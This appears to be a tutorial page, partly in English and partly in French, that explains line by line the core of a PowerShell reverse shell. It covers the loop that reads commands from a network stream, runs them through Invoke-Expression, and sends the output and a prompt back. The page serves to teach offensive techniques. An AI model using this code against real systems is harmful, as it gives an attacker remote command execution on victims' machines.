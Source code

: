 <mark style="color:orange;">**Empty Byte Stream**</mark>

```powershell
[byte[]]$bytes = 0..65535|%{0}; 
```

Creates a byte type array (`[]`) called `$bytes` that returns 65,535 zeros as the values in the array.&#x20;

<mark style="color:orange;">**Stream Parameters**</mark>

```powershell
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
```

* Affecte `$i` au résultat de `$stream.Read($bytes, 0, $bytes.Length)`, c’est‑à‑dire le nombre d’octets effectivement lus dans le tampon `$bytes`.
* `Read` lit des octets depuis la `NetworkStream` en commençant à l’`offset` 0 et au plus `count` octets (`$bytes.Length`).
* Placée dans une boucle `while`, l’affectation est évaluée : la boucle continue tant que `Read` retourne une valeur non nulle (des octets reçus).
* Quand `Read` retourne 0, cela signifie généralement que la connexion a été fermée et la boucle se termine.

<mark style="color:orange;">**Set The Byte Encoding**</mark>

```powershell
{;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i);
```

* Affecte `$data` à une instance de la classe .NET `System.Text.ASCIIEncoding`.
* Permet d’utiliser la méthode `GetString` pour convertir le flux d’octets `$bytes` en texte ASCII lisible.
* Assure que les données transmises et reçues ne sont pas juste des bits bruts, mais sont encodées en texte.
* Le point-virgule (`;`) sépare les instructions pour qu’elles s’exécutent séquentiellement.

<mark style="color:orange;">**Invoke-Expression**</mark>

```powershell
$sendback = (iex $data 2>&1 | Out-String ); 
```

* Affecte `$sendback` au résultat de `Invoke-Expression ($data)`, qui exécute le contenu de `$data` comme commande PowerShell sur l’ordinateur local.
* Redirige la **sortie standard** (`1`) et **l’erreur** (`2>`) vers `Out-String`, qui convertit tout en texte.
* Permet de capturer à la fois les résultats et les erreurs d’exécution dans une seule chaîne.
* Le point-virgule (`;`) sépare les instructions pour qu’elles s’exécutent séquentiellement.

<mark style="color:orange;">**Show Working Directory**</mark>

```powershell
$sendback2 = $sendback + 'PS ' + (pwd).path + '> '; 
```

<mark style="color:orange;">**Sets Sendbyte**</mark>

{% code overflow="wrap" fullWidth="true" %}
```powershell
$sendbyte=  ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}
```
{% endcode %}
